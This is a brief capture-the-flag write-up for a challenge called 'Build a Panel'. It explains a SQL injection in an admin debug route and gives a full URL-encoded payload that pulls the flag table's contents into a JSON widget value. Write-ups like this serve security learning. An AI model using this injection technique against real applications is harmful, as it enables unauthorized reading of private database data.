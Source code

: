 # Build a Panel
There is a debug route to send to the admin that has direct SQL injection. We can make it add the flag into the widget table under our panel ID, but since the value field needs to be JSON some padding is needed.

```
/admin/debug/add_widget?panelid=your id&widgetname=flag%27,%20%27{%22type%22:%22%27%20||%20(SELECT%20*%20FROM%20flag%20LIMIT%201)%20||%20%27%22}%27);--&widgetdata=b
```

